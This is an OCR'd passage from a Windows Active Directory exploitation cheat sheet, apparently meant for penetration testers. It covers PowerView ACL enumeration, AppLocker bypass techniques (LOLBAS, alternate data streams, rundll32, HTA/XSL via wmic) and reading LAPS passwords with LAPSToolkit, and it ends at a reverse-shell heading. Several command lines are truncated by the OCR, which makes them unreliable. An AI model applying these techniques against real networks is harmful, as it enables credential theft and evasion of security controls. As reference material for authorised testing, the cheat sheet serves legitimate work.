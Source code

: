 # Find interesting ACLs for the entire domain, show in a
Find-InterestingDomainAcl | select identityreferencename

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

6/31

# Get interesting outgoing ACLs for a specific user or g
# ?{} is a filter statement
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityR

AppLocker
Identify AppLocker policy Look for exempted binaries or paths to
bypass
Get-AppLockerPolicy -Effective | select -ExpandProperty

Some high level bypass techniques
Use LOLBAS if only Microsoft signed binaries are allowed
If binaries from C:\Windows are allowed try dropping your
binaries to C:\Windows\Temp or C:\Windows\Tasks If there
are no writable subdirectories but writable files exist in this
directory tree write your file to an alternate data stream e g
a JScript script and execute it from there
Wrap your binaries in a DLL file and execute them with
rundll32 to bypass executable rules If binaries like Python
are allowed use that If that doesn’t work try other techniques
such as wrapping JScript in a HTA file or running XSL files with
wmic

LAPS
We can use L APSToolkit ps

to identify which machines in the
domain use L APS and which domain groups are allowed to read
L APS passwords If we are in this group we can get the current
L APS passwords using this tool as well
# Get computers running LAPS, along with their passwords
Get-LAPSComputers
# Get groups allowed to read LAPS passwords
Find-LAPSDelegatedGroups

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

7/31

Exploitation
Powercat reverse shell
If a reverse shell to your Linux box is not an option
